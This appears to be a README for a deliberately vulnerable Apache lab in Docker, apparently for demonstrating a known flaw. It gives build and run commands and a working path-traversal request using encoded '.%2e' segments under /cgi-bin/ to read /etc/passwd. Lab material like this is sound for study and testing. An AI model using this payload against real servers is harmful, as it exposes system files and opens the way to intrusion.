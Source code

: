 # Instructions
Create a docker image from Dockerfile  
`docker build -t vulnerable-apache .`  
Start a container exposing appropriate ports (host:container)  
`docker run -p 8080:80 --rm -d vulnerable-apache`  
Then exploit passing the absolute path of a file of your choice in the URL  
`curl '127.0.0.1:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/etc/passwd'`